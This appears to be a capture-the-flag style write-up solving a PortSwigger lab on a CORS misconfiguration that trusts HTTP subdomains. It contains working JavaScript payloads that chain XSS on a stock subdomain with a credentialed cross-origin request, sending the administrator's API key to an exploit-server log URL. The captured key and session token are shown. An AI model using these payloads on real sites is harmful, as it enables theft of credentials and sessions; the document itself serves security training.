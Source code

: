 # CORS vulnerability with trusted insecure protocols

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all subdomains regardless of the protocol.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get",
    "https://YOUR-LAB-ID.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location =
      "https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key=" +
      this.responseText;
  }
</script>
```

### HINT:

```html
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();
	function reqListener() {
	location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText;
	};
%3c/script>
```

### step1

login in and go account section
see history in burpsuite select account-details and sent to repeater
got to home choose any product then click on stock you will get another url with different subdoamin name
`http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=4<#HINT>&storeId=1`

### step2

add `Origin: http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=1&storeId=1`
you will get response
`Access-Control-Allow-Origin: http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=1&storeId=1`

### step3 apply payload in expolit section

### HINT:

```html
<script>
  document.location =
    "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1";
</script>
```

```subdomain_url
http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=4&storeId=1
```

```html
<script>
  document.location =
    "http://stock.0aed003d0361c2148095a4e800e300ff.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aed003d0361c2148095a4e800e300ff.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a27006c0380c2168057a36c01e300d2.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1";
</script>
```

deliver to victim

go to expolit log section

```javascript
{%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22ISPlm6GR5xNWobDqdasO99acigUDWktd%22,%20%20%22sessions%22:%20[%20%20%20%20%22O84JikMdp0tkYOpx4RrVXrfZYW6JnGIo%22%20%20]}
```

decoded as url in burpsuite

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "ISPlm6GR5xNWobDqdasO99acigUDWktd",
  "sessions": ["O84JikMdp0tkYOpx4RrVXrfZYW6JnGIo"]
}
```
